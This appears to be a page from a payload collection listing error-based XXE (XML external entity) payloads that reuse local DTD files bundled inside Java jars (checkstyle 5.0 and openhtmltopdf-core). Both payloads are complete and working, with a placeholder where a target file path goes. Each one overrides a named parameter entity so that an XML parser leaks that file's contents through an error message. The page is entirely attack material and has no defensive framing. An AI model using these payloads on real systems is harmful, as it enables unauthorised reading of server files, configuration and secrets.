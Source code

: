 # XXE payloads for DTD inside jars (Unknown full path)

**DTD File:** `[HOME_DIR]/.m2/repository/checkstyle/checkstyle/5.0/checkstyle-5.0.jar!/com/puppycrawl/tools/checkstyle/checks/imports/import_control_1_0.dtd`

**Injectable entity:** `%attlist.guard`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/checkstyle/checkstyle/5.0/checkstyle-5.0.jar!/com/puppycrawl/tools/checkstyle/checks/imports/import_control_1_0.dtd">

    <!ENTITY % attlist.guard '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/com/openhtmltopdf/openhtmltopdf-core/0.0.1-RC9/openhtmltopdf-core-0.0.1-RC9.jar!/resources/schema/docbook/docbookx.dtd`

**Injectable entity:** `%dbnotn`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/com/openhtmltopdf/openhtmltopdf-core/0.0.1-RC9/openhtmltopdf-core-0.0.1-RC9.jar!/resources/schema/docbook/docbookx.dtd">

    <!ENTITY % dbnotn '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 
